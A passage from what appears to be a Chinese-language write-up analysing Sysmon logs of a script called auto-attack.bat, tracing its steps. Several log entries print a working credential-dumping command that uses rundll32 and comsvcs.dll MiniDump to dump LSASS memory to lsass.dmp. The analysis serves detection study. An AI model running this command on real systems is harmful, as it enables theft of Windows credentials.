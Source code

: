     ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin 
    OriginalFileName choice.exe 
    CommandLine choice /c YN
    ```
5. PowerShell - Get lsass.dmp
    這條command就好玩了，接著auto-attack.bat又接續執行powershell，並且執行command如下，這一條command一開始看不太懂，隨便搜尋發現是一個經典的payload，主要是參考@3gstudent的文章[《MiniDumpWriteDump via COM+ Services DLL》的利用測試](https://3gstudent.github.io/MiniDumpWriteDump-via-COM+-Services-DLL-%E7%9A%84%E5%88%A9%E7%94%A8%E6%B5%8B%E8%AF%95)，一般來說我們都會想辦法用procdump之類的工具把lsass或是SYSTEM dump出來，但其實也可以用其他internal dll呼叫MiniDump的方式，把東西拿到手，範例的話可以參考[comsvcs MiniDump examples](https://gist.github.com/JohnLaTwC/3e7dd4cd8520467df179e93fb44a434e)
    > "C:\Windows\System32\rundll32.exe"  C:\Windows\System32\comsvcs.dll MiniDump \<PID> \Windows\Temp\<filename>.dmp full
    
    其實就和這一條payload有87趴像，中間的 ==((Get-Process lsass).Id)== 就是在抓lsass的PID，另外@3gstudent也有提到這個必須要是管理員權限才可以執行
    ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin 
    OriginalFileName PowerShell.EXE 
    CommandLine powershell.exe -NoProfile -Command "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full"
    ProcessId 8832
    ```
    
    接著就是真的實際執行該條command後拿到lsass.dmp
    ```
    ParentProcessId 8832 
    ParentImage C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe 
    ParentCommandLine powershell.exe -NoProfile -Command "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\Windows\Temp\lsass.dmp full" 
    ParentUser W10C\Admin 
    OriginalFileName RUNDLL32.EXE 
    CommandLine "C:\Windows\system32\rundll32.exe" C:\Windows\System32\comsvcs.dll MiniDump 892 C:\Windows\Temp\lsass.dmp full 
    ```
6. Event ID: 11 - FileCreate
    ```
    TargetFilename C:\Windows\Temp\lsass.dmp 
    CreationUtcTime 2023-12-17 07:10:29.916 
    User W10C\Admin 
    ```
7. Timeout
    從以下紀錄得知auto-attack.bat又繼續搞事，看了[MSDN](https://learn.microsoft.com/zh-tw/windows-server/administration/windows-commands/timeout)的說明，有點類似sleep的功能，雖然不知道加這行要幹嘛?
    ```
    ParentProcessId 7544 
    ParentImage C:\Windows\System32\cmd.exe 
    ParentCommandLine "C:\Windows\System32\cmd.exe" /C "C:\Users\Admin\Desktop\auto-attack.bat"  
    ParentUser W10C\Admin
    ProcessId 6080 
    OriginalFileName timeout.exe 
    CommandLine TIMEOUT /T 3 
    ```
8. FileCreate - notepad.exe
    這個我猜是直接embedded在auto-attack.bat裡面的一段notepad的bytecode，以防受害電腦沒有notepad.exe就可以直接創一個(?)不是很確定
    ```
    Image C:\Windows\System32\cmd.exe 
    TargetFilename C:\Windows\Temp\notepad.exe
    CreationUtcTime 2023-12-17 07:10:32.119 